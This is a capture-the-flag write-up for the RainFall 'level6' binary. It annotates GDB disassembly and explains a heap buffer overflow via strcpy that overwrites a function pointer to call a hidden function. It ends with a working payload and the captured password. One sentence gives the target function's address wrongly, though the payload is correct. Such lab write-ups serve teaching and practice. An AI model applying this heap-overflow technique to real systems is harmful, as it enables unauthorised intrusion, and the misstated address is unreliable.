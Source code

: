 # level6

> We use [GDB peda](https://github.com/longld/peda) in order to get a better GDB visualization.

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

We take a look at the existing functions inside the binary.

```gdb
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0804847c <+0>:     push   ebp
   0x0804847d <+1>:     mov    ebp,esp
   0x0804847f <+3>:     and    esp,0xfffffff0
   0x08048482 <+6>:     sub    esp,0x20
   0x08048485 <+9>:     mov    DWORD PTR [esp],0x40         ; load 64 as arg
   0x0804848c <+16>:    call   0x8048350 <malloc@plt>       ; malloc(64)
   0x08048491 <+21>:    mov    DWORD PTR [esp+0x1c],eax     ; pointer of malloc is stored at [esp+0x1c]
   0x08048495 <+25>:    mov    DWORD PTR [esp],0x4          ; load 4 as arg
   0x0804849c <+32>:    call   0x8048350 <malloc@plt>       ; malloc(4)
   0x080484a1 <+37>:    mov    DWORD PTR [esp+0x18],eax     ; pointer of last malloc is stored at [esp+0x18]
   0x080484a5 <+41>:    mov    edx,0x8048468                ; move 0x8048468 (<m>) to edx
   0x080484aa <+46>:    mov    eax,DWORD PTR [esp+0x18]     ; load pointer at [esp+0x18] (malloc(4)) into eax
   0x080484ae <+50>:    mov    DWORD PTR [eax],edx          ; mov edx (<m>) into stack pointed by eax
   0x080484b0 <+52>:    mov    eax,DWORD PTR [ebp+0xc]      ; load address [ebp+12] into eax
   0x080484b3 <+55>:    add    eax,0x4                      ; [ebp+12] + 4: seems to be argv[1]
   0x080484b6 <+58>:    mov    eax,DWORD PTR [eax]          ; load argv[1] into eax
   0x080484b8 <+60>:    mov    edx,eax                      ; load argv[1] into edx
   0x080484ba <+62>:    mov    eax,DWORD PTR [esp+0x1c]     ; load [esp+0x1c] (malloc(64)) into eax
   0x080484be <+66>:    mov    DWORD PTR [esp+0x4],edx      ; arg2 = argv[1]
   0x080484c2 <+70>:    mov    DWORD PTR [esp],eax          ; arg1 = pointer malloc(64)
   0x080484c5 <+73>:    call   0x8048340 <strcpy@plt>       ; strcpy(malloc(64), argv[1])
   0x080484ca <+78>:    mov    eax,DWORD PTR [esp+0x18]     ; load [esp+0x18] into eax
   0x080484ce <+82>:    mov    eax,DWORD PTR [eax]          ; get first argument of struct pointed by eax
   0x080484d0 <+84>:    call   eax                          ; call eax where eax point to <m> (function pointer)
   0x080484d2 <+86>:    leave
   0x080484d3 <+87>:    ret
End of assembler dump.
```

```gdb
gdb-peda$ disas m
Dump of assembler code for function m:
   0x08048468 <+0>:     push   ebp
   0x08048469 <+1>:     mov    ebp,esp
   0x0804846b <+3>:     sub    esp,0x18
   0x0804846e <+6>:     mov    DWORD PTR [esp],0x80485d1    ; 0x80485d1 = "Nope"
   0x08048475 <+13>:    call   0x8048360 <puts@plt>         ; puts("Nope")
   0x0804847a <+18>:    leave
   0x0804847b <+19>:    ret
End of assembler dump.
```

```gdb
gdb-peda$ disas n
Dump of assembler code for function n:
   0x08048454 <+0>:     push   ebp
   0x08048455 <+1>:     mov    ebp,esp
   0x08048457 <+3>:     sub    esp,0x18
   0x0804845a <+6>:     mov    DWORD PTR [esp],0x80485b0    ; 0x80485b0 = "/bin/cat /home/user/level7/.pass"
   0x08048461 <+13>:    call   0x8048370 <system@plt>       ; system("/bin/cat /home/user/level7/.pass")
   0x08048466 <+18>:    leave
   0x08048467 <+19>:    ret
End of assembler dump.
```

After analysing the differents functions we understand that we need to use the `call eax` instruction at `main<+84>` to make it call the hidden function `n` which will display the `.pass` file.

Since `malloc` will allocate 64 bytes for the string, then 4 more for the address of the function `m` (function pointer), theses two memory spaces will be contiguous.

The use of `strcpy`, which does not check the source string length, to write inside the address returned by the first `malloc`, will allow us to perform a buffer overflow attack on the heap to overwrite the address stored inside the function pointer (`m` address) with the address of `n`.

## Exploit

The argument we send must be long enough to fill in the 64 bytes allocated by the first `malloc` call, plus the 8 bytes of block metadata. The 4th next bytes, corresponding to the second `malloc` allocation, must be replaced with the address of `n` function (0x08048468).

```console
level6@RainFall:~$ ./level6 `python -c 'print "A"*72 + "\x54\x84\x04\x08"'`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```